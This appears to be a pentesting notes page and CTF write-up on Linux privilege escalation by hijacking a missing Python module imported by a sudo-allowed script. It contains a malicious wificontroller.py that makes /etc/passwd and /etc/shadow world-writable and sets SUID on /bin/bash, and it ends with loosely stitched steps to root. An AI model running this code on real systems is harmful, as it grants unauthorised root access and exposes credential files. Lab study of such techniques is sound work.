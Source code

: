 # Python based applications escalation

If they run as root and we can write them replace them with a python reverse shell.&#x20;

### Module Hijacking

This happens when the module that a script wants to use isnt imported, we can replace it with our own version.&#x20;

| 1 | `sudo` `-l` |
| - | ----------- |

[![](https://grumpygeekwrites.files.wordpress.com/2021/09/2021-09-18\_04-23.png?w=1024)](https://grumpygeekwrites.files.wordpress.com/2021/09/2021-09-18\_04-23.png)

wifi\_reset.py was importing a module wificontroller and executing some commands but this wifcontroller module was absent.

[![](https://grumpygeekwrites.files.wordpress.com/2021/09/2021-09-18\_04-25.png?w=716)](https://grumpygeekwrites.files.wordpress.com/2021/09/2021-09-18\_04-25.png)

So ,we created our malicious **wificontroller.py** module inside the same folder i.e. **/home/walter** which had the malicious Privilege Escalation code. And executed it.

```python
import os
 
def stop(text,value):
        os.system("chmod 777 /etc/passwd");
 
def reset(text,value):
        os.system("chmod +s /bin/bash");
 
def start(text,value):
        os.system("chmod 777 /etc/shadow");
```

[![](https://grumpygeekwrites.files.wordpress.com/2021/09/2021-09-18\_05-37.png?w=929)](https://grumpygeekwrites.files.wordpress.com/2021/09/2021-09-18\_05-37.png)

As a result of executing it, we got following results.

[![](https://grumpygeekwrites.files.wordpress.com/2021/09/2021-09-18\_05-38.png?w=809)](https://grumpygeekwrites.files.wordpress.com/2021/09/2021-09-18\_05-38.png)

BASH is having SUID bit. So, we became root with following command and read the root flag.

![](https://miro.medium.com/max/774/1\*pHwdVenZK2p10bkdlxBm3Q.png)

See? All it does it spawn a bash shell. Now lets run our sudo command “sudo /usr/bin/python /home/walter/wifi\_reset.py”.

![](https://miro.medium.com/max/1238/1\*z6wTAIRzU63oLG8hmf4RsQ.png)

We get root, proof.txt and this box is done.

